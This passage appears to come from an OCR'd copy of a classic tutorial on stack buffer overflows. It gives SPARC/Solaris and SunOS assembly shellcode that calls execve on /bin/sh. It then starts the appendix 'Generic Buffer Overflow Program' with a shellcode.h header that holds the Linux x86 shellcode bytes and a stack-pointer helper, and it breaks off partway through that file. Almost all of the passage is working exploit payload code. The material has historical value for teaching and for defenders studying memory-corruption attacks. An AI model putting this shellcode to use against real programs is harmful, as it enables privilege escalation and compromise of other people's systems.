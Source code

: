 SPARC/Solaris
</PRE>
```nasm
      sethi   0xbd89a, %l6
      or      %l6, 0x16e, %l6
      sethi   0xbdcda, %l7
      and     %sp, %sp, %o0
      add     %sp, 8, %o1
      xor     %o2, %o2, %o2
      add     %sp, 16, %sp
      std     %l6, [%sp - 16]
      st      %sp, [%sp - 8]
      st      %g0, [%sp - 4]
      mov     0x3b, %g1
      ta      8
      xor     %o7, %o7, %o0
      mov     1, %g1
      ta      8
```
<PRE>

SPARC/SunOS
</PRE>
```nasm
      sethi   0xbd89a, %l6
      or      %l6, 0x16e, %l6
      sethi   0xbdcda, %l7
      and     %sp, %sp, %o0
      add     %sp, 8, %o1
      xor     %o2, %o2, %o2
      add     %sp, 16, %sp
      std     %l6, [%sp - 16]
      st      %sp, [%sp - 8]
      st      %g0, [%sp - 4]
      mov     0x3b, %g1
      mov     -0x1, %l5
      ta      %l5 + 1
      xor     %o7, %o7, %o0
      mov     1, %g1
      ta      %l5 + 1
```
<PRE>


                 Appendix B - Generic Buffer Overflow Program
                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

shellcode.h
</PRE>
```C
#if defined(__i386__) && defined(__linux__)

#define NOP_SIZE        1
char nop[] = "\x90";
char shellcode[] =
  "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
  "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
  "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) {
   __asm__("movl %esp,%eax");
}

#elif defined(__sparc__) && defined(__sun__) && defined(__svr4__)

#define NOP_SIZE        4
```